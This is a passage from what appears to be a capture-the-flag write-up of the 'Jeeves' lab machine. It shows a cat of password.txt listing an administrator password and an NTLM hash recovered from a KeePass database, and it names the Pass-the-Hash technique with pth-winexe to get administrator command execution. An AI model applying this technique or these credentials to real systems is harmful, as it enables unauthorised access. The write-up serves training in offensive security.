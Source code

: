     ![](images/2025-02-09_9.png)

### 4.4 Pass-the-Hash to Administrator

The KeePass database also contained an NTLM hash for another account. Standard password authentication failed, so I used the Pass-the-Hash technique with `pth-winexe` to gain command execution as the `administrator`.

```bash
➜  jeeves-10.129.45.32 cat password.txt                    
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: password.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ administrator:S1TjAtJHKsugh9oC4VZl
   2   │ NTLM HASH:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
Using `winexe` to login to smb
